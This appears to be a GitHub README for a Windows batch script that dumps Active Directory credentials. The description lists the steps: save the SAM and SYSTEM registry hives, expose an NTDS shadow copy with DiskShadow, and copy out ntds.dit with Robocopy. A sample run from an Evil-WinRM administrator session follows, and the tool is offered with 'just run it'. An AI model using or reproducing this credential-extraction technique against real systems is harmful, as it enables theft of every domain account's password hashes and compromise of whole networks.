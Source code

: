 README file I guess
=======================================

It uses robocopy to exploit registry keys and robocopy while also iterating through drive letters with DiskShadow to expose a shadow copy of the NTDS directory for extraction.


Description:
-------------
- Deletes any existing NTDS, SAM, SYSTEM, and ntds.dit files in the current directory. 
- Saves the SAM and SYSTEM registry hives.
- Verifies that the C:\Windows\ntds directory exists.
- Checks if drive already exists
  - Iterates through drive letters from Z to A (skipping those in use) to find an available drive.
- Creates a DiskShadow script for you
- Runs DiskShadow and checks if the shadow copy is available.
- Uses Robocopy to copy the ntds.dit file from the exposed shadow copy, then renames it to NTDS.
- Cleans up temporary files (like shadow.dsh and diskshadow output logs) after execution.




USAGE:
======================================

Literally just run it LOL

```./script.bat```

example of it running:

```BAT
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\script.bat

[*] Saving registry hives...
The operation completed successfully.

The operation completed successfully.

[+] Registry hives saved successfully.

[*] NTDS directory detected.

[-] Drive letter Z is already in use.
[*] Found existing shadow copy on drive Z, extracting files...

Log File : C:\Users\Administrator\Documents\robocopy.log
[*] Renaming ntds.dit to NTDS...
[+] File successfully renamed to NTDS.
[*] Operation completed successfully.
Press any key to continue . . .
```


